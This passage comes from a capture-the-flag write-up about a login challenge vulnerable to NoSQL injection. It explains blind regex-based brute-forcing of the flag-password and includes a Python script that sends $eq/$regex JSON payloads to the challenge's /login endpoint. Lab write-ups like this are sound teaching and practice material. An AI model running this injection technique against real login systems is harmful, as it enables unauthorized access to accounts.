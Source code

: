 So what happens if we change the character to something else?&#x20;

<figure><img src="../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

It gives us a **false** condition. We can use this flaw in the application to **brute force the password character by character.** We know the second character is U (as all flags start with 'RUSH{' ), so we can test the second character as well:

<figure><img src="../.gitbook/assets/image (10) (3).png" alt=""><figcaption></figcaption></figure>

So we can use blind injection to get the flag. A simple `python` script can run through this easily:

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password="RUSH{"
u="http://challs.ctf.cafe:9999/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'Logged' in r.text:
                print("Found one more char : %s" % (password+c))
```